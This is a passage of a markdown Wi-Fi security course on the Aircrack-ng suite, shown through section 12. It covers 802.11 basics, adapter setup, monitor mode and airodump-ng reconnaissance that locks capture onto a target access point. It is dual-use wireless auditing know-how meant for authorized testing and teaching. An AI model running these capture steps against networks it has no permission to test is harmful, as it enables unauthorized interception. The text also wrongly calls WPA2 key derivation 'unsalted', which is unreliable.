










# Aircrack-ng & Wi-Fi Security — Complete Course

> **Scope:** Authorized wireless penetration testing, CTFs, security research labs, and defensive wireless hardening only.
>
> **Level:** Beginner → Intermediate → Advanced → Purple Team
>
> **Goal:** Master the Aircrack-ng suite and 802.11 wireless security architecture. Learn monitor mode configuration, channel hopping reconnaissance, WPA/WPA2 4-way handshake analysis, controlled deauthentication testing, offline cryptanalysis, Protected Management Frames (PMF / 802.11w), WPA3-SAE Dragonfly mechanics, and enterprise wireless defense.

---

<div align="center">



# 📡 Aircrack-ng & Wireless Security Masterclass 📡
### The Comprehensive Guide to 802.11 Protocol Cryptanalysis, Radio Frequency Auditing & Enterprise Defense

[](https://www.ieee.org/)
[](https://www.aircrack-ng.org/)
[](https://github.com/sivaoffl04/Cyber-Blog)

</div>

---

### 📺 Interactive Video Demonstration & Cracking Labs

<div align="center">

| Demonstration | Target Architecture | Interactive Video Link |
| :--- | :--- | :---: |
| **Aircrack-ng Complete Wi-Fi Masterclass** | Adapter Setup, Monitor Mode & Handshake Capture | [](https://www.youtube.com/results?search_query=aircrack-ng+complete+course+tutorial) |
| **802.11 4-Way Handshake & Wireshark Forensics** | EAPOL Messages, Nonce Exchange & MIC Verification | [](https://www.youtube.com/results?search_query=wpa2+4-way+handshake+wireshark+tutorial) |
| **WPA3-SAE Dragonfly & 802.11w PMF Defense** | Protected Management Frames & Evil Twin Detection | [](https://www.youtube.com/results?search_query=wpa3+sae+dragonfly+pmf+802.11w) |

</div>

---

### 💻 Real-Time Terminal Capture & Cracking Demonstration

The animated recording below demonstrates an authorized wireless assessment in Kali Linux (`airodump-ng` spectrum targeting on channel 11, live 4-way EAPOL handshake interception, and high-speed dictionary recovery using `aircrack-ng`):



---

## Course Roadmap

```text
01. Wi-Fi Fundamentals
02. Wireless Security Concepts
03. Kali Linux Wireless Setup
04. Wireless Adapter & Driver Verification
05. Aircrack-ng Suite
06. Monitor Mode
07. Channel & Band Selection
08. Wireless Reconnaissance
09. Airodump-ng
10. Target Identification
11. WPA/WPA2 Authentication
12. Handshake Capture
13. Controlled Deauthentication
14. Aircrack-ng Password Auditing
15. Wordlists
16. Custom Wordlists
17. Capture Analysis
18. WPA2-PSK Security
19. WPA3 & PMF
20. WEP Concepts & Legacy Auditing
21. Hidden SSIDs
22. Multiple Access Points
23. Wireless Clients
24. Troubleshooting
25. Detection & Defense
26. Purple-Team Validation
27. Complete Authorized Lab
28. Reporting
29. Advanced Aircrack-ng Tools
30. Practical Exam / Projects
```

---

# Table of Contents

1. [Wi-Fi Fundamentals](#1-wi-fi-fundamentals)
2. [Wi-Fi Frequency Bands](#2-wi-fi-frequency-bands)
3. [Wireless Security Generations](#3-wireless-security-generations)
4. [What Aircrack-ng Actually Is](#4-what-aircrack-ng-actually-is)
5. [Verify Your Wireless Adapter](#5-verify-your-wireless-adapter)
6. [Check the Adapter](#6-check-the-adapter)
7. [Check Interfering Processes](#7-check-interfering-processes)
8. [Monitor Mode](#8-monitor-mode)
9. [What Is Monitor Mode?](#9-what-is-monitor-mode)
10. [Airodump-ng](#10-airodump-ng)
11. [Identifying an AP](#11-identifying-an-ap)
12. [Capture Files](#12-capture-files)
13. [WPA/WPA2 Authentication](#13-wpawpa2-authentication)
14. [Handshake Capture](#14-handshake-capture)
15. [Controlled Deauthentication](#15-controlled-deauthentication)
16. [Why Deauthentication Matters](#16-why-deauthentication-matters)
17. [Password Auditing](#17-password-auditing)
18. [RockYou](#18-rockyou)
19. [Custom Wordlists](#19-custom-wordlists)
20. [Why Password Length Matters](#20-why-password-length-matters)
21. [Dictionary Attack](#21-dictionary-attack)
22. [Brute Force](#22-brute-force)
23. [WPA2 vs WPA3](#23-wpa2-vs-wpa3)
24. [PMF (Protected Management Frames)](#24-pmf)
25. [Hidden SSIDs](#25-hidden-ssids)
26. [Wireless Clients](#26-wireless-clients)
27. [Channel Locking](#27-channel-locking)
28. [Wireless Adapter Problems](#28-wireless-adapter-problems)
29. [Monitor Mode Doesn't Start](#29-monitor-mode-doesnt-start)
30. [NetworkManager Recovery](#30-networkmanager-recovery)
31. [Complete Lab Workflow](#31-complete-lab-workflow)
32. [Practical Lab](#32-practical-lab)
33. [Wireshark Analysis](#33-wireshark-analysis)
34. [Defensive Detection](#34-defensive-detection)
35. [Purple-Team Exercise](#35-purple-team-exercise)
36. [Wireless Attack Surface](#36-wireless-attack-surface)
37. [WPS (Wi-Fi Protected Setup)](#37-wps)
38. [Evil Twin Concept](#38-evil-twin-concept)
39. [Enterprise Wi-Fi (802.1X / RADIUS)](#39-enterprise-wi-fi)
40. [Wireless Pentest Methodology](#40-wireless-pentest-methodology)
41. [Common Mistakes](#41-common-mistakes)
42. [Essential Commands Cheat Sheet](#42-essential-commands-cheat-sheet)
43. [Your Original Workflow — Corrected](#43-your-original-workflow--corrected)
44. [What You Should Master](#44-what-you-should-master)
- [Final Mental Model](#final-mental-model)

---

# 1. Wi-Fi Fundamentals

Before operating Aircrack-ng, it is vital to understand the physical and logical architecture of 802.11 wireless networks.

In contrast to switched Ethernet cables where data travels isolated along copper strands, wireless communications transmit over **unbounded shared radio frequency (RF) airspace**:

```text
             Internet
                |
             Router
                |
        +-------+-------+
        | Wi-Fi Access  |
        |     Point     |
        +-------+-------+
                |
       +--------+--------+
       |        |        |
    Laptop    Phone    Tablet
```

### Essential Wireless Terminology

| Term | Technical Name | Meaning & Function |
| :--- | :--- | :--- |
| **AP** | Access Point | Central transceiver bridge routing packets between wired networks and wireless devices. |
| **STA** | Station | Any wireless client node equipped with a wireless network interface controller (laptop, mobile phone, IoT sensor). |
| **BSSID** | Basic Service Set Identifier | The unique 48-bit MAC address of the Access Point's wireless radio interface (e.g., `C8:9C:BB:BD:30:99`). |
| **ESSID / SSID** | Extended Service Set Identifier | Human-readable network broadcast name configured on the AP (e.g., `RedTeam-Lab`). |
| **Channel** | Frequency Channel | Specific radio frequency slice within the 2.4 GHz, 5 GHz, or 6 GHz band where packets are modulated. |
| **Beacon Frame** | 802.11 Beacon | Periodic management broadcast transmitted by the AP (typically 10 times per second) advertising network presence, rates, and capabilities. |
| **Probe Request** | Client Discovery Frame | Management broadcast sent by stations seeking previously connected networks. |
| **Probe Response** | AP Discovery Frame | Management frame transmitted by an AP answering a station's Probe Request. |
| **Authentication** | 802.11 Open / Shared Auth | Initial link-level handshake establishing wireless association capability. |
| **Association** | 802.11 Association | Process binding a station to an AP to enable transmission of data frames. |
| **PSK** | Pre-Shared Key | Shared passphrase configured on both AP and client (WPA2-Personal). |
| **PMK** | Pairwise Master Key | 256-bit cryptographic master key derived from the PSK and SSID via PBKDF2: $\text{PMK} = \text{PBKDF2}(\text{PSK}, \text{SSID}, 4096, 256)$. |
| **PTK** | Pairwise Transient Key | Ephemeral session encryption key derived per-session during the 4-way handshake using nonces and MAC addresses. |
| **EAPOL** | Extensible Authentication Protocol over LAN | Carrier protocol transmitting 4-way handshake frames during WPA/WPA2 authentication. |
| **MIC** | Message Integrity Code | Cryptographic checksum inside EAPOL frames guaranteeing that keys have not been tampered with. |

---

# 2. Wi-Fi Frequency Bands

Radio communication operates across three primary frequency bands governed by regulatory bodies (FCC, ETSI):

```text
2.4 GHz Spectrum
5.0 GHz Spectrum
6.0 GHz Spectrum (Wi-Fi 6E / Wi-Fi 7)
```

### 2.4 GHz Band (Channels 1 to 14)
* **Advantages:** Longer operational distance; superior physical penetration through walls, timber, and concrete.
* **Disadvantages:** Highly congested (Bluetooth, microwave ovens, cordless phones share spectrum); only **3 non-overlapping channels** exist in North America and Europe: **1, 6, and 11** (spaced 25 MHz apart).

### 5 GHz Band (Channels 36 to 165)
* **Advantages:** Up to 24 non-overlapping 20 MHz channels; supports channel bonding (40 MHz, 80 MHz, 160 MHz); dramatically higher throughput and lower packet latency.
* **Disadvantages:** Shorter radio wave propagation distance; attenuated rapidly by solid walls and metallic structures.

### 6 GHz Band (Wi-Fi 6E & Wi-Fi 7)
* **Advantages:** Up to 1,200 MHz of pristine, interference-free spectrum; up to seven 160 MHz or three 320 MHz ultra-wide channels; mandatory WPA3 security.
* **Disadvantages:** Requires specialized Wi-Fi 6E/7 wireless adapter chipsets and kernel driver support.

---

# 3. Wireless Security Generations

The evolution of 802.11 security reflects decades of cryptographic advances responding to real-world exploits:



```text
WEP (1997) ──> WPA (2003) ──> WPA2 (2004) ──> WPA3 (2018)
 [Broken]      [Deprecated]    [Common Standard] [Modern Defense]
```

### 1. WEP (Wired Equivalent Privacy - 1997)
* **Status:** Fundamentally and irreparably broken.
* **Flaw:** Employs the RC4 stream cipher with a miniature 24-bit Initialization Vector (IV). Because IVs repeat rapidly under traffic load, statistical cryptanalysis (Fluhrer-Mantin-Shamir and PTW attacks in `aircrack-ng`) recovers the key in seconds after capturing ~20,000 IVs.

### 2. WPA (Wi-Fi Protected Access - 2003)
* **Status:** Obsolete and deprecated.
* **Flaw:** Created as an emergency firmware patch for WEP hardware. Utilized TKIP (Temporal Key Integrity Protocol) with dynamic keys, but retained RC4 as the core cipher. Vulnerable to Beck-Tews and Ohigashi-Kuwakado keystream recovery attacks.

### 3. WPA2 (Wi-Fi Protected Access 2 - 2004)
* **Status:** Enterprise and residential standard (802.11i).
* **Architecture:** Replaced RC4 with military-grade **AES-CCMP** (Counter Mode Cipher Block Chaining Message Authentication Code Protocol).
* **Vulnerability:** Unsalted derivation of the Pairwise Master Key ($\text{PMK}$) allows offline dictionary and brute-force cryptanalysis if an attacker captures the 4-way EAPOL handshake.

### 4. WPA3 (Wi-Fi Protected Access 3 - 2018)
* **Status:** Modern security standard.
* **Architecture:** Replaces PSK with **SAE (Simultaneous Authentication of Equals)** based on the Dragonfly handshake (RFC 7664). Features zero-knowledge proofs, forward secrecy, and mandatory **Protected Management Frames (PMF / 802.11w)** to prevent deauthentication attacks.

---

# 4. What Aircrack-ng Actually Is

**Aircrack-ng** is not a single command—it is a comprehensive, modular suite of specialized command-line tools engineered for 802.11 wireless security auditing:



```text
             Aircrack-ng Suite
                    |
        +-----------+-----------+
        |           |           |
    airmon-ng  airodump-ng  aireplay-ng
        |           |           |
   Monitor mode   Capture     Testing
                    |
                    v
               aircrack-ng
                    |
                    v
             Password auditing
```

### The 6 Core Modules of the Aircrack-ng Suite:

| Tool Name | Operational Role | Key Capabilities |
| :--- | :--- | :--- |
| **`airmon-ng`** | Interface & Driver Orchestration | Puts wireless network cards into RF monitor mode; disables interfering system processes. |
| **`airodump-ng`** | Packet Capture & Reconnaissance | Hoppers across 802.11 channels; captures raw frames; writes `.cap` packet dumps; visualizes APs and clients. |
| **`aireplay-ng`** | Frame Injection & Traffic Generation | Generates wireless traffic; injects controlled deauthentication management frames; executes ARP replay attacks. |
| **`aircrack-ng`** | Cryptanalysis & Key Recovery | Executes statistical cryptanalysis against WEP captures; performs high-speed dictionary attacks against WPA/WPA2 handshakes. |
| **`airdecap-ng`** | Packet Decryption | Decrypts captured `.pcap` / `.cap` files once the PSK or WEP key is known, producing clean plaintext PCAPs. |
| **`packetforge-ng`** | Frame Crafting | Forges encrypted 802.11 packets for injection testing when testing legacy WEP implementations. |

---

# 5. Verify Your Wireless Adapter

Before executing any wireless auditing commands, verify that your wireless network adapter is recognized by the Linux kernel:

```bash
# Display network interfaces
ip link
```

or inspect wireless devices directly via `iw`:

```bash
iw dev
```

**Expected Standard Output:**
```text
phy#0
	Interface wlan0
		ifindex 3
		wdev 0x1
		addr 00:c0:ca:98:86:1a
		type managed
```

Inspect driver capabilities and verify whether the physical adapter supports **monitor mode**:

```bash
iw list
```

Search the output for `Supported interface modes`:

```text
Supported interface modes:
        * managed
        * monitor
        * AP
```

> [!IMPORTANT]
> **Adapter Chipset Requirement:** To conduct wireless security auditing, your wireless network adapter must support **Monitor Mode** and **Packet Injection**. Industry standard chipsets include **Atheros AR9271**, **Ralink RT3070**, **MediaTek MT7612U**, and **Realtek RTL8812AU**.

---

# 6. Check the Adapter

Use `airmon-ng` to inspect the physical PHY layer, interface name, and kernel driver:

```bash
sudo airmon-ng
```

**Sample Output:**
```text
PHY	Interface	Driver		Chipset
phy0	wlan0		ath9k_htc	Atheros Communications, Inc. AR9271 802.11n
```

Key fields to verify:
* **PHY:** Physical radio device layer identifier (`phy0`).
* **Interface:** Kernel logical interface name (`wlan0`).
* **Driver:** Active kernel driver module (`ath9k_htc`).
* **Chipset:** Hardware silicon manufacturer and model.

---

# 7. Check Interfering Processes

Operating systems run background networking daemons (such as `NetworkManager` and `wpa_supplicant`) that actively manipulate wireless channels, scan for SSIDs, and break monitor mode capture streams:

```bash
sudo airmon-ng check
```

**Sample Output:**
```text
Found 2 processes that could cause trouble.
Kill them using 'airmon-ng check kill' before putting
the card in monitor mode, they will reset the card to default mode.

    PID Name
    642 NetworkManager
    712 wpa_supplicant
```

Terminate all interfering daemons before auditing:

```bash
sudo airmon-ng check kill
```

> [!WARNING]
> Running `airmon-ng check kill` terminates system networking daemons. Your computer will be temporarily disconnected from internet access over Wi-Fi until networking services are restarted.

---

# 8. Monitor Mode

To enable RF monitor mode on interface `wlan0`:

```bash
sudo airmon-ng start wlan0
```

Verify that the monitor interface is active:

```bash
iw dev
```

**Expected Output:**
```text
phy#0
	Interface wlan0mon
		ifindex 4
		wdev 0x2
		addr 00:c0:ca:98:86:1a
		type monitor
```

The interface name transitions from `wlan0` to **`wlan0mon`** (or retains `wlan0` in newer kernel releases with monitor flag set).

---

# 9. What Is Monitor Mode?

To understand why monitor mode is essential, contrast it with standard managed mode:

```text
Managed Mode (Normal Wi-Fi):
Laptop ──> Filters out all packets except those addressed to its own MAC address.

Monitor Mode (RF Sniffing):
              Wi-Fi Airspace Spectrum
                        |
        +---------------+---------------+
        |               |               |
     AP Alpha        AP Beta         AP Gamma
         \              |              /
          \             |             /
             wlan0mon (All 802.11 Frames Accepted)
                        |
                    Kali Linux
```

In **Managed Mode**, the Wi-Fi card’s firmware applies a hardware filter, immediately discarding every wireless frame whose destination MAC address does not match the laptop’s own hardware MAC address.

In **Monitor Mode**, the firmware filter is deactivated. The adapter captures every 802.11 frame traversing the radio frequency spectrum within range—including management beacons, probe requests, and authentication handshakes.

---

# 10. Airodump-ng

Initiate wireless reconnaissance across the local radio spectrum:

```bash
sudo airodump-ng wlan0mon
```

**Live Reconnaissance Terminal Display:**

```text
CH 11 ][ Elapsed: 18 s ][ 2026-10-01 09:40 

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 AA:BB:CC:DD:EE:FF  -42 100      184      412    8  11  54e. WPA2 CCMP   PSK  RedTeam-Lab
 10:22:33:44:55:66  -78  45       42        0    0   1  54e  WPA2 CCMP   PSK  Guest-WiFi
 00:11:22:33:44:55  -85  12       14        2    0   6  54e. WEP  WEP     OPN  Legacy-Device

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 AA:BB:CC:DD:EE:FF  44:6D:57:20:19:B2  -48   54 -54      0       240  Associated RedTeam-Lab
```

### Critical Telemetry Columns:

| Column | Description |
| :--- | :--- |
| **BSSID** | Hardware MAC address of the target Access Point. |
| **PWR** | Received Signal Strength Indicator (RSSI) in dBm. Values closer to 0 indicate stronger signals (`-40 dBm` is strong; `-85 dBm` is weak). |
| **Beacons** | Count of 802.11 beacon frames received from this AP. |
| **#Data** | Count of captured data frames. High data counts indicate an active, busy network. |
| **CH** | Operating radio channel (1 to 14 for 2.4 GHz; 36 to 165 for 5 GHz). |
| **ENC** | Encryption protocol: `OPN` (Open), `WEP`, `WPA`, `WPA2`, or `WPA3`. |
| **CIPHER** | Symmetric cipher suite: `CCMP` (AES), `TKIP`, or `WEP40/104`. |
| **AUTH** | Authentication suite: `PSK` (Pre-Shared Key), `MGT` (802.1X Enterprise), or `SAE` (WPA3 Dragonfly). |
| **ESSID** | Broadcast network name. |
| **STATION** | Hardware MAC address of an actively associated wireless client device. |

---

# 11. Identifying an AP

Once target reconnaissance reveals the authorized laboratory network:

```text
Target BSSID : C8:9C:BB:BD:30:99
Channel      : 11
ESSID        : RedTeam-Lab
```

Lock `airodump-ng` onto the target AP’s specific channel and BSSID to eliminate channel hopping packet drops:

```bash
sudo airodump-ng \
  -c 11 \
  --bssid C8:9C:BB:BD:30:99 \
  -w red_team_capture \
  wlan0mon
```

### Parameter Breakdown:
* **`-c 11`**: Locks radio tuning strictly to Channel 11.
* **`--bssid C8:9C:BB:BD:30:99`**: Filters capture strictly to frames originating from or destined for this AP.
* **`-w red_team_capture`**: Specifies output file prefix.
* **`wlan0mon`**: Active monitor mode interface.

---

# 12. Capture Files

When `airodump-ng` writes capture streams, it creates several complementary file formats:

```text
red_team_capture-01.cap         <- Binary PCAP containing raw 802.11 radio packets
red_team_capture-01.csv         <- Detailed CSV log of APs, clients, and packet counts
red_team_capture-01.kismet.csv  <- Kismet-compatible logging export
red_team_capture-01.kismet.netxml <- XML formatted wireless topology file
```

